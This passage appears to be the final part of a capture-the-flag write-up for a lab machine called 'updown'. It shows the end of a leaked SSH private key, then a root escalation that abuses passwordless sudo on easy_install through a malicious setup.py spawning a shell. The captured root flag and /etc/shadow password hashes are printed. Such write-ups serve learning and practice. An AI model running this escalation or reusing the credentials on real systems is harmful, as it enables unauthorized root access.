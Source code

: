 ```bash
NBaoVC84pPezAtU4Z8wF51VLmM3Ooft9+T11j0qk4FgPFSxqt6WDRjJIkwTdKsMvzA5XhK
rXhMhWhIpMWRQ1vxzBKDa1C0+XEA4w+uUlWJXg/SKEAb5jkK2FsfMRyFcnYYq7XV2Okqa0
NnwFDHJ23nNE/piz14k8ss9xb3edhg1CJdzrMAd3aRwoL2h3Vq4TKnxQY6JrQ/3/QXd6Qv
ZVSxq4iINxYx/wKhpcl5yLD4BCb7cxfZLh8gHSjAu5+L01Ez7E8MPw+VU3QRG4/Y47g0cq
DHSERme/ArptmaqLXDCYrRMh1AP+EPfSEVfifh/ftEVhVAbv9LdzJkvUR69Kok5LIhAAAA
wCb5o0xFjJbF8PuSasQO7FSW+TIjKH9EV/5Uy7BRCpUngxw30L7altfJ6nLGb2a3ZIi66p
0QY/HBIGREw74gfivt4g+lpPjD23TTMwYuVkr56aoxUIGIX84d/HuDTZL9at5gxCvB3oz5
VkKpZSWCnbuUVqnSFpHytRgjCx5f+inb++AzR4l2/ktrVl6fyiNAAiDs0aurHynsMNUjvO
N8WLHlBgS6IDcmEqhgXXbEmUTY53WdDhSbHZJo0PF2GRCnNQAAAMEAyuRjcawrbEZgEUXW
z3vcoZFjdpU0j9NSGaOyhxMEiFNwmf9xZ96+7xOlcVYoDxelx49LbYDcUq6g2O324qAmRR
RtUPADO3MPlUfI0g8qxqWn1VSiQBlUFpw54GIcuSoD0BronWdjicUP0fzVecjkEQ0hp7gu
gNyFi4s68suDESmL5FCOWUuklrpkNENk7jzjhlzs3gdfU0IRCVpfmiT7LDGwX9YLfsVXtJ
mtpd5SG55TJuGJqXCyeM+U0DBdxsT5AAAAwQDDfs/CULeQUO+2Ij9rWAlKaTEKLkmZjSqB
2d9yJVHHzGPe1DZfRu0nYYonz5bfqoAh2GnYwvIp0h3nzzQo2Svv3/ugRCQwGoFP1zs1aa
ZSESqGN9EfOnUqvQa317rHnO3moDWTnYDbynVJuiQHlDaSCyf+uaZoCMINSG5IOC/4Sj0v
3zga8EzubgwnpU7r9hN2jWboCCIOeDtvXFv08KT8pFDCCA+sMa5uoWQlBqmsOWCLvtaOWe
N4jA+ppn1+3e0AAAASZGV2ZWxvcGVyQHNpdGVpc3VwAQ==
-----END OPENSSH PRIVATE KEY-----
```

---------------

# ROOT
### Step 1
Running `sudo -l` shows us the privilege escalation vector:
```bash
developer@updown:/dev/shm$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

Looking up _easy_install_ on [gtfobins](https://gtfobins.github.io/gtfobins/easy_install/) we get the syntax to instantly spawn a root shell.

```bash
developer@updown:/dev/shm$ TF=$(mktemp -d)
developer@updown:/dev/shm$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:/dev/shm$ sudo /usr/local/bin/easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.i7LFwunRkU
Writing /tmp/tmp.i7LFwunRkU/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.i7LFwunRkU/egg-dist-tmp-2bXqH_
# id
uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt
72fa86fbc9173578b5df7f17dd9d3933

# cat /etc/shadow 
root:$6$35UwqDmGM31K3z1O$EV0yHaLbvEqQ1YfxHOl4fMFHnR0O0Lo7RSnFGpYdfUwBmec0/5JWenL6GLivYgeka8Z4XyYW2UhWOV5UOdK0w.:19165:0:99999:7:::
developer:$6$LkPh3nNMEVO.zmIc$I/j67KSo1n7pR.fzcMfH/hc/8EYISX8JUtDpoc7iMIiYEhX4bgVXPV4L6Gam3AvxMd46wh5XTulsxbpy9ezLf/:19165:0:99999:7:::
```
